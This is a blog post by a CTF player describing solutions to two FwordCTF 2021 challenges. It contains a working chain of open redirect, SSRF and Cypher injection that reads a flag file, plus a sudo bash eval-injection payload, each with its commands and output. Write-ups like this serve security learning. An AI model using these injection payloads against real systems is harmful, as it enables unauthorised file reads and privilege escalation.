

After somewhat of an hiatus for finishing my dissertation and some well-deserved vacations, I'm back with a blogpost :)

This past weekend I participated in [FWordCTF 2021](https://ctf.fword.tech/) under the team [Pwntugal](https://ctftime.org/team/131601) (which I may start using when I'm competing by myself).
Much like [last time](../fwordctf-2020-writeup), my objective was to participate with a friend of mine but unfortunately our schedules misaligned and as such we only had a brief period of time in which we both looked at the CTF.

Due to other recent life events I ended up not being able to dedicate much time to the CTF, unfortunately - Hopefully a [multi-part?] blogpost will follow with more details on what has been going on in my life, as I have some things to share :) - As such, I only solved two tasks and did not attempt many more, especially not at a great depth.
Despite only two solves (three if we count the welcome challenge), Pwntugal still managed to place 101st out of 428 scoring teams!

Overall the event was pretty fun and a good reminder how amusing these events can be.
I'll have to make sure that I keep participating in CTFs as they are also a good way to keep my skills sharp.

## Challenge list

* [SeoFtw (Web) - 834 points](#SeoFtw)
* [devprivops (Bash) - 508 points](#devprivops)
* Welcome (Welcome) - 10 points (lol)

## SeoFtw (Web) - 834 points {#SeoFtw}

This was the first task I solved, and I found it quite interesting. Something that made me like this task and praise this CTF in general is that all the web tasks have their source code made available.
In my opinion, this removes a lot of the guesswork involved in some challenges. Many challenge authors would believe their challenges would become trivial with access to source-code, but in my _humble_ opinion, this is just a symptom of bad design.
If challenges are well designed, they will be hard enough that even with source code they are not trivial. The tasks become more straightforward without losing meaningful difficulty, which makes things fairer and more enjoyable overall.

Enough about challenge design, let's get into this specific challenge!

After solving the challenge I was stunned when I noticed that I was the fifth solver at the time:



Since many other challenges had already been released at the time, this was a great achievement for me, given that many times I only attempt challenges with a lot of solves due to thinking that they will be easier since a lot of people were able to solve them. Here's to believing in oneself!

At the end of the CTF, over 40 people had solved the challenge (as per the screenshot above), which is a lot more than the original 5.
Still, given that there were 428 scoring teams, this seems like a great achievement nonetheless.

The problem statement:

> Well as always you have the source code so why adding a description ?
>
> LINK: Here
> 
> Author: Kahla
> 
> Attached files: `seoftw.zip`

The source code consisted of four main components, organized as such:
```
~/CTF/fword-2021/web/seoftw
miguel@miguel-xps$ tree -L 1
.
├── backend/
├── docker-compose.yml
├── flag.txt
├── front-node/
├── notes.md
├── package.json
├── rendertron/
├── seoftw/
└── seoftw.zip
```

The `docker-compose.yml` file helps in getting some understanding of these services (it was where I looked first in all these challenges to have a better idea of the running services):
```docker-compose
version: "3.9"
services:
  backend:
    build:
      context: ./backend
      dockerfile: ./Dockerfile
    image: backend
    ports:
      - "5000:5000"
    depends_on:
      - neo4j
    restart: always
    networks:
      - seonet

  neo4j:
    image: neo4j
    environment:
      NEO4J_AUTH: 'neo4j/fword'
      NEO4J_dbms_directories_import: '/'
    volumes:
      - "./flag.txt:/flag.txt"
    networks:
      - seonet

  rendertron:
    build:
      context: ./rendertron
      dockerfile: ./Dockerfile
    image: rendertron
    expose:
      - "3000"
    restart: always
    networks:
      - seonet

  front-node:
    build:
      context: ./front-node
      dockerfile: ./Dockerfile
    image: front-node
    ports:
      - "80:3000"
    depends_on:
      - seoftw
      - rendertron
    restart: always
    networks:
      - seonet

  seoftw:
    build:
      context: ./seoftw
      dockerfile: ./Dockerfile
    expose:
      - "80"
    restart: always
    networks:
      - seonet

networks:
  seonet:
    ipam:
      config:
        - subnet: 172.16.0.0/24
          gateway: 172.16.0.1

```

It is difficult to explain all of the intricacies of this challenge without including a bunch of source code. However, that would make this post too long (to both read _and_ write), so I'll try to focus on the essentials:
* `seoftw` is an Angular Front-End compiled in a multi-stage docker build and served with nginx;
* `front-node` is the front most part of the stack, it is what is exposed to the web (thus binding port 80) and serves as a sort of "request forwarder" to other services;
* `rendertron` is a simple configuration of [Rendertron](https://github.com/GoogleChrome/rendertron), by Google, which is a headless Chrome rendering solution (more on this later);
* `neo4j` is simply a [`neo4j`]() image that the `backend` service uses as a database;
* `backend` is the application's back-end which provides a very limited set of features that will be explored afterwards.

The core concept of this challenge is a website built in Angular with a simple neo4j-backed back-end. These two components are "served" from an express app which routes the requests to the angular front-end.

The twist is that when the `User-Agent` for the request is set to that of a web crawler bot (like `googlebot`, `bingbot`, or `facebookexternalhit`), `Rendertron` is used to render the page and send that as the response to the bot.
This is a typical [SEO (Search Engine Optimization)](https://en.wikipedia.org/wiki/Search_engine_optimization) technique, since the crawler bots often do not have JavaScript enabled, which is a problem for SPA frameworks such as React, Angular or Vue. Thus, since the JS is ran in Rendertron, the "correct" (post-JS-execution) page will be sent to the crawler which will index it with the right content.

This does not seem like much of a problem since we can only get the rendered pages from URLs that we can already provide and thus would be able to navigate to.
Since the website is static, it does not seem to have any possibility for cookies that only Rendertron has set to be part of the solution.

Thus, after digging through the front-end code and finding all the routes (`/best_animes`, `/best_mangas`, and `/under_maintenance`), I found a potential issue. Here's the code of `best-mangas.component.ts`, see if you can spot it:

```javascript
import { Component, OnInit } from '@angular/core';
import {ActivatedRoute} from "@angular/router";

@Component({
  selector: 'app-best-mangas',
  templateUrl: './best-mangas.component.html',
  styleUrls: ['./best-mangas.component.css']
})
export class BestMangasComponent implements OnInit {
  private sub: any;
  private page: string = "" ;

  constructor(private route: ActivatedRoute) { }

  ngOnInit(): void {
    this.sub = this.route.queryParams.subscribe(params => {
      this.page = params['page'];
    });
    window.location.href=this.page ;

  }

}
 ```

There's an [Open Redirect](https://cwe.mitre.org/data/definitions/601.html) using the `page` parameter.
While this might not be an issue by itself, especially since the link to this page is hard-coded to redirect to the `under_maintenance` route, it may be helpful as a stepping stone to chain with other issues, so let's keep this in mind.

After some more snooping around, I found this route in the back-end code:

```python
@app.route("/secret")
def secret():
	ip=request.remote_addr
	an_address = ipaddress.ip_address(ip)
	a_network = ipaddress.ip_network('172.16.0.0/24')
	if(an_address in a_network):
		db=get_db()
		result = db.read_transaction(lambda tx: list(tx.run("MATCH (body:Anime) WHERE body.name=\""+request.args.get("name")+"\" RETURN body",{})))
		print(result)
		return jsonify({"result":result})
	else:
		return jsonify({"result":"No No little hacker"})
```

So, we have some sort of "secret" route (which especially when we have the source-code, is not very secret) which checks that the requester is in a specific subnetwork (the one configured in docker-compose, incidentally) before proceeding with the execution of a neo4j query.
Additionally, those with a keen eye may have already noticed a vulnerability in this code: the `name` request parameter is being directly interpolated into the query, which makes it so that the requester can inject statements into the query. This is a sort of SQLi, but for neo4j. Would this be called `neo4jli`? :P

Therefore, after joining all these pieces, the path seemed straightforward: I would use a "crawler bot" `User-Agent` so that Rendertron is triggered to look at my provided URL.
This URL goes to the `best_mangas` page and exploits the Open Redirect in it in order to redirect Rendertron to the back-end. This redirection will then use the `name` parameter to perform query injection into the neo4j query to exfiltrate the flag!

The toughest issues I faced when going through this whole process ended up being fighting against the neo4j query language (which I learned is called Cypher, btw), as well as figuring out where the flag was (hint: nowhere in the DB of course, that would be too easy lol) and understanding why the redirection wasn't happening for certain parameters (the issue was that I was not URL-encoding the second `?` to be used for the parameters of the second request, and thus the initial request was grabbing those parameters and stopping the request from happening at all). Throughout all this process it was extremely helpful to be able to run everything locally painlessly using `docker-compose`. I was even able to add some print statements to the code in order to better understand its behaviour, which was great!

In the end, the final exploit looked something like this (requests sent using [`httpie`](https://httpie.io/), which I highly recommend as a `curl` alternative):

```
~
miguel@miguel-xps$ http http://seoftw.fword.tech/best_mangas page=='http://backend:5000/secret%3Fname=Naruto" RETURN body.name as x UNION LOAD CSV FROM "file:///flag.txt" AS f RETURN f as x //' User-Agent:googlebot
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Connection: keep-alive
Content-Length: 211
Content-Type: text/html; charset=utf-8
Date: Sat, 28 Aug 2021 00:17:15 GMT
ETag: W/"d3-T8qWmdRM9kaHD3caUERLnAjf1Mg"
Expires: 0
Keep-Alive: timeout=5
Pragma: no-cache
X-Powered-By: Express

<html><head><base href="http://seoftw/"></head><body><pre style="word-wrap: break-word; white-space: pre-wrap;">{"result":[["Naruto"],[["FwordCTF{Op3nRediR3cTs_C4n_Be_HarMfUl_Som3tIm3s}"]]]}
</pre></body></html>
```

The original query for an `Anime` tag was concatenated with the use of a `UNION` with the result of loading the flag file as a CSV. The "variable binding" part (`RETURN bla as x`) was my workaround to [this neo4j query error](https://stackoverflow.com/questions/33723706/all-sub-queries-in-an-union-must-have-the-same-column-names).

As such, the flag can be found in the request body: `FwordCTF{Op3nRediR3cTs_C4n_Be_HarMfUl_Som3tIm3s}`


After a bit, the challenge author released a "revenge" (continuation) version of this challenge which blocked the words `flag` and `5000`. Sadly, I did not have much time to try hacking this version but it seems like it was easily bypassed by using URL encoding for some of the characters, or using the REVERSE function in neo4j (both of which seem like quite clever workarounds). Unfortunately, it appears that this was not the intended solution, which was supposed instead to use a user-created page to redirect the Rendertron bot into the right URL. Despite trying this, I did not have enough time to debug the 404 errors I was having, and `beeceptor` said it was receiving the requests correctly. Maybe I'll have to try `https://webhook.site/` next to see if that was the issue.

## devprivops (Bash) - 508 points {#devprivops}

This challenge is quite similar to `"Bash is fun"` from last year's edition of this CTF. I made a blogpost about this that includes the [writeup for that challenge](../fwordctf-2020-writeup#Bash-is-fun).

The problem statement:

> Well good luck elevating your privs x)
>
> ssh -p 10000 ctf@devprivops.fword.tech
> 
> Password: FwOrDAndKahl4FTW
> 
> Author: Kahla

After SSH'ing into the server with the provided credentials, several files were available:

```
user1@52db7372e865:/home/user1$ ls -lah
total 32K
drwxrwxr-t 1 root  user1           4.0K Aug 27 22:44 .
drwxr-xr-x 1 root  root            4.0K Aug 27 22:43 ..
-rw-r--r-- 1 user1 user1            220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user1 user1           3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 user1 user1            807 Feb 25  2020 .profile
-rwxr-xr-x 1 root  user-privileged  945 Aug 27 22:09 devops.sh
-rwxr----- 1 root  user-privileged   67 Aug 27 22:09 flag.txt
```

As the `user1` user, we also seem to have some `sudo` permissions:

```
user1@52db7372e865:/home/user1$ sudo -l
Matching Defaults entries for user1 on 52db7372e865:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 52db7372e865:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

Looking at the `devops.sh` script:

```bash
user1@52db7372e865:/home/user1$ cat devops.sh
#!/bin/bash
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:"
exec 2>/dev/null
name="deploy"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -d | --deploy )
     deploy=1
     ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo -ne "Welcome To Devops Swiss Knife \o/\n\nWe deploy everything for you:\n"


if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi

isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi

# Check your current permissions admin-san
if [[ $permission -eq 1 ]];then
        echo "You are: "
        id
fi
```

It looks quite similar to the "Bash is fun" script, which helped me solve this challenge quite quickly.

My solution was the following:

```
user1@287ef9842811:/home/user1$ sudo -u user-privileged /home/user1/devops.sh -d -p
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
id { cat flag.txt; }; function bla
You are:
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
```

Thus, the flag is: `FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}`

This works since the function in the `eval` statement is defined as the "id" function, with our arbitrary commands (in this case simply read flag).
Then, by also passing in the `-p` flag, `id` is called. This would normally be the `id` binary, but since the function is defined with this name, it is looked at first since it is in scope and thus it is called.

From the unofficial writeups in the CTF Discord, it was also possible to execute commands directly in the `eval` by escaping the function definition.
Something like `bla { echo bla; }; cat flag.txt; #` could be passed in as the input, which would read the flag straight away.

Finally, it appears that the solution I (and others found) was unintended, judging from the official writeup posted on Discord.
The intended solution was to place a specific terraform config that would be able to exfiltrate the flag, which would be run by giving a function name of `id`.

## Sign-off

Wrapping up, this CTF was great despite my lack of time to dive too deep into it.
I enjoyed all the challenges that I tried, especially those that I managed to solve :P

The web tasks and especially the fact that they had the source code available was awesome (I'll just say it this last time, I swear), given that it kind of simulated AppSec tasks with source-code analysis, while reducing the scope to simple apps (e.g. with only a handful of routes).

For the near future, I'll be looking forward to try and dive into Google's [Beginner's Quest](https://capturetheflag.withgoogle.com/beginners-quest) which has already started.
This has a longer timeframe than the usual CTFs and quite a different format, with challenges being solved in a specific order.
I have heard that this usually dives into concepts from several areas ranging from beginner to intermediate, which sounds right up my alley, since I still struggle with some areas unfortunately (cryptography especially!).

I'm also looking forward to writing an update blogpost ASAP.
As I've mentioned, I'll probably split it up in a multi-part blogpost, at least to try and make sure that it starts coming out sooner rather than later, as I have been postponing this for _way_ too long.
